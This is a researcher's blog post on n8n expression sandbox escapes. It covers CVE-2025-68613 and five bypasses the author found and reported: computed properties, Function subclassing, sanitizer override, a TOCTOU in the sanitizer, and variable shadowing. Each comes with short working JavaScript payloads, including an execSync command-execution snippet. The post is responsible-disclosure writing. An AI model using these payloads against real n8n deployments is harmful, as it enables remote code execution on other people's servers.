


# About n8n expressions, or the tale of sandboxes

n8n is a very nice platform for automating mundane tasks: you can create nodes, connect them, and configure them as you wish.Also, it has extensive documentation on all nodes, so it's easy to configure all the integrations and boy, there are tons of them! I personally used a workflow to collect data from Google Form via webhook, ingest it into Notion and had another workflow to automatically generate documents whenever a Notion table has all required values. That's why I am quite fond of it.

Last year, in 2025, I remember the first time I saw a code execution vulnerability in n8n (CVE-2025–68613). It piqued my interest, so I decided to have a look at it. But that raises a question: how do you approach it? Since n8n is open-source, you can just look at the source code, right? Probably, if only you have some experience with that huge code base…

## Let's roll!

Let's start by looking at the [Github Security Advisory](https://github.com/advisories/GHSA-v98v-ff95-f3cp).

You will see the patched version, so you'll probably want want to look at the [release notes](https://github.com/n8n-io/n8n/releases/tag/n8n%401.120.4).



Nothing… Let's just look at the [tag commits](https://github.com/n8n-io/n8n/commits/n8n%401.120.4/).


The changelog is empty and there is only [one commit](https://github.com/n8n-io/n8n/commit/1c933358acef527ff61466e53268b41a04be1000).
`Merge commit from fork`?

This could mean only one thing: this commit was created from the private GHSA fork! Whenever a security advisory is created, it's possible to create a private fork, which is visible to reporter and repository maintainers. That means the commit came from the PR created in that special repository.

## Let's look closer at the sandbox

We can see that the sandbox was enhanced with additional properties:

```javascript
const unsafeObjectProperties = new Set([
  "__proto__",
  "prototype",
  "constructor",
  "getPrototypeOf",
  "mainModule",
  "binding",
  "_load",
]);
```

But it seems quite lacking, doesn't it? Firstly, we need to find a way to run this code specifically. The easiest way is to run tests that are added in the commit and play around them. It's quite complicated, as n8n's repo is huge and needs tons of setup. But there is a VSCode extension, we need to get familiar with the codebase and how to run a dev version. I'd suggest using agents to get familiar with codebase and read AGENTS.md/README.md.

When I started researching the vulnerability myself, I decided to install previous release and run the exploit myself. Here is the payload I used: https://github.com/TheStingR/CVE-2025-68613-POC/blob/master/exploit_cve-2025-68613.py

```javascript
this.constructor.constructor(
  'return require(\"child_process\").execSync(\"{command}\").toString()',
)();
```

As you can see, there are a lot of tricks to unpack. Firstly, this refers to some Object, so `this.constructor` is `Object.constructor`. `Object.constructor` itself is a Function, so `Object.constructor.constructor` is `Function.constructor`, which basically is eval!

Inside the eval, we can escape the sandbox and run any code with the context of the caller. So this is how exploit works, but how to find a vulnerability yourself?

## Exploit 1: computed properties

My first thought is to find a way to access `constructor` property of the object.

`this['constructor']` becomes `this[___n8n_data.sanitize('constructor')]`, so whatever is in square brackets gets wrapped in the sanitizer function.

Are there any other ways to access a property?

Let's try object destructuring: `const {constructor} = this;`.

This also fails, but this time during the AST validation.

But we can use computed properties!

```javascript
const a = "constructor";
const {[a]: b} = this;
```

And it turns out this works!

So here is the first vulnerability: expression sandbox did not account for computed properties.
I immediately wrote a report and submitted it, but I felt there is a lot more I can find. So I was thinking about how to access Function constructor other way.

## Exploit 2: subclassing

Please welcome: inheritance!

```javascript
class Z extends Function {}
new Z("console.log(1)")();
```

This constructs a subclass of Function, which then gets executed :)

So that is the second payload.

After that, I thought that it's nothing much I can do this way anymore, so I just slept a couple of days on it and decided to look for alternative approaches.

## Exploit 3: sanitizer override

The sanitizer seemed quite interesting, so I thought: maybe I can override it?

Expression evaluator uses `___n8n_data`/`this` for variable access, for example: `data = 1` becomes something like `___n8n_data.data = 1` (you can run a debugger and check what is happening).

So, I could do something like: `__sanitize = a => a;`.

This messes up the sanitizer, so now I can bypass runtime validations, like `this['const'+'ructor']`!

We just found exploit 3!

## Exploit 4: TOCTOU in sanitizer

Then I decided to look closely at the sanitizer function itself:

```typescript
export const sanitizer = (value: unknown): unknown => {
  const propertyKey = String(value);
  if (!isSafeObjectProperty(propertyKey)) {
    throw new ExpressionError(
      `Cannot access "${propertyKey}" due to security concerns`,
    );
  }
  return value;
};
```

It looks quite suspicious to me: why are we converting values to String in the beginning but use raw value in return? So can we create something that changes its value in runtime? And yes, we can! Here is payload 4:

```javascript
function createBypass() {
  let value = "noop";
  return {
    toString: () => {
      const current = value;
      value = "constructor";
      return current;
    },
  };
}
```

This is basically TOCTOU, during time-of-check we return normal value, but during the use we return 'constructor' string!

## Exploit 5: variable shadowing

To find the last exploit, I decided to take a step back and check if we can do something on the script level. If we try to see what is happening during expression evaluation, we could see something like this:

```javascript
var ___n8n_data = this;
// some init
// our code
return 2 + 2;
```

Can you see it?
We can create another scope and shadow the data node (`___n8n_data`)!
So here is the last payload:

```javascript
(() => {
  const ___n8n_data = { __sanitize: (a) => a }; // do whatever you want
})();
```

This completely circumvents sanitizer and allows code execution!

## Conclusion

So this is how these newly found vulnerabilities work.

Current patches all mitigate these vulnerabilities, but IMO they do not eliminate the root cause: execution context is not changing and expressions get evaluated quite close to n8n's own scope. I hope they change the context by introducing the sandbox (vm2 or something else).

This is the story of how I found my first CVE in an open-source project :)

I only had experience with CVEs during CTFs, but never thought I'd be able to find one myself.

## Side note: GHSA process

I liked how Github's Security Advisories work: you create a report and basically write everything you found and chat with maintainers. Also it's possible to create a private fork where maintainers/reporters can collaborate on the patches. I proposed a couple of patches, and they got accepted :)

The unfortunate thing is there was no collaboration data in commits, but it's cool to know that code you wrote made it into the open-source project regardless.

Also, I suggest to check out these awesome articles by JFrog and Fatih Çelik related to this vulnerability:

- https://research.jfrog.com/post/achieving-remote-code-execution-on-n8n-via-sandbox-escape/
- https://fatihhcelik.github.io/posts/n8n-RCEs-A-Tale-of-4-Acts/
